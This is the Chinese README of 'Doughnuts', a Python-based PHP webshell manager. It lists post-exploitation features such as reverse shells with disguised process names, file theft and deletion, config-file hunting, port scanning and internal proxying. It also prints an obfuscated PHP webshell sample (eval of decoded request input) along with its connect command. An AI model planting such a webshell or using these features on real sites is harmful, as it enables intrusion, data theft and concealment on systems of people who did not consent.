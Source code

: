 # Doughnuts

*一个基于Python3.6+的PHPwebshell管理器*
![YPIoee.png](https://s1.ax1x.com/2020/05/05/YPIoee.png)
![YPIjQf.png](https://s1.ax1x.com/2020/05/05/YPIjQf.png)

## 特征

- 支持连接,记录,管理webshell,方便下一次连接
- 基于eval的连接,支持GET,POST,COOKIE,HEADER四种连接方式
- 支持编码payload(已内置base64,str_rot13,hex三种编码,可以通过添加encode文件夹中的py文件进行扩展),以实现连接带有解码的webshell
- 核心功能
    - 获取网站,系统信息
    - 获取一个临时的非完全交互式shell和webshell
    - 以php/python的方式反弹shell(windows/unix通用)
    - 读/写/上传/下载/删除网站文件
    - 网站目录打包下载
    - 寻找可写的PHP文件(以树状结构显示)
    - 寻找配置文件(文件名中包含cfg/config/db/database) 也可以通过修改代码来支持寻找更多的文件(以树状结构显示)
    - 输出disbale_functions
    - 搜索文件
    - 端口扫描
    - 内网网页文本式浏览代理，可自定义请求方法和数据
- 易于扩展

## 依赖

- Python3.6+
- Python-requests
- Python-colorama

## 安装方法

```
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```php
<?php
error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 参考

灵感源自https://github.com/WangYihang/Webshell-Sniper


## 更新

### V1.9
- 添加search命令,使用glob函数递归搜索文件.命令格式为search {pattern}

### V1.8
- 优化连接时发送的请求,从发送三次变成发送2次
- 修改pdf命令的逻辑,在连接时获取
- 优化reshell命令,命令格式为reshell {lhost} {port} {type=[python|script|upload]{1|2|3},default = 0 (Python:1 Not Python:3)} {(Only for Mode 2) fakename=/usr/lib/systemd} 三种模式分别为:1->使用python pty模块升级, 2->使用linux自带的script命令升级, 3->上传一个反弹pty的二进制文件并运行(可以伪造进程名,若无法反弹请进入libs目录拿取源码,使用目标相同发行版进行编译后覆盖原reverse_server_light文件)


### V1.7

- 修改reshell命令,修复bug,优化体验,可以随意伪装进程名
- 在libs目录下放置reverse_server_light的源码,方便编译与修改(origin:https://github.com/QAX-A-Team/ptyshell)
- 重写portscan,支持三种扫描方式


### V1.6

- 修复了若干bug
- 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell(仅限双方系统都是linux且可能存在一定的问题)


### V1.5

- modify指令现在会调用notepad/vim进行编辑
- write指令现在会调用notepad/vim进行编辑
- dump命令现在使用原始php代码进行压缩,可以压缩子目录
- 优化了发送payload的间隔符

### V1.4

- 添加指令:修改文件
- 关闭debug模式
- 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示


## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

